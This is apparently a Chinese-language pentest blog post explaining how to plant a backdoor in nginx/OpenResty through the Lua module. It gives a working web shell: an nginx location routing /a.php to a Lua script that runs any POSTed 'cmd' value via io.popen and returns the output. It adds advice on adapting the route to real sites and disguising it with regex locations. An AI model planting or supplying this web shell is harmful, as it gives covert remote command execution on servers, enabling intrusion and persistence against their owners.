 ```yaml
---
title: "Nginx Lua Backdoor"
date: 2019-09-01T17:35:59+08:00
lastmod: 2019-09-01T17:35:59+08:00
draft: false
tags: ['backdoor']
categories: ['pentest']
comment: true
---
```

在先知看到了apache利用lua留后门，就想着用nginx也试试
<!--more-->

# 要求

安装有ngx_lua模块，在openresty和tengine中是默认安装了ngx_lua模块的。

我这里拿openresty举例，你可以在这里[下载win平台](https://openresty.org/download/openresty-1.15.8.1-win64.zip)打包好的。

# 步骤

找到conf/nginx.conf，在server块中添加路由

```nginx
location = /a.php {  
    default_type 'text/plain';  
    content_by_lua_file lua/backdoor.lua;
}
```

然后创建`lua/backdoor.lua`脚本，你也可以创建在任意位置，不过要对应上文的`content_by_lua_file`字段

```lua
ngx.req.read_body()
local post_args = ngx.req.get_post_args()
local cmd = post_args["cmd"]
if cmd then
    f_ret = io.popen(cmd)
    local ret = f_ret:read("*a")
    ngx.say(string.format("%s", ret))
end
```

重载nginx

```bash
nginx -s reload
```

浏览器访问

![20190901174819](https://y4er.com/img/uploads/20190901174819.png)

# 文后

在实际的环境中，conf文件并不固定，你需要针对不同站点的配置文件去修改。

而location你可以更灵活一些，毕竟他能用正则表达式🙄，具体怎么用看你自己咯。

参考链接

1. https://github.com/netxfly/nginx_lua_security
2. https://xz.aliyun.com/t/6088

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**
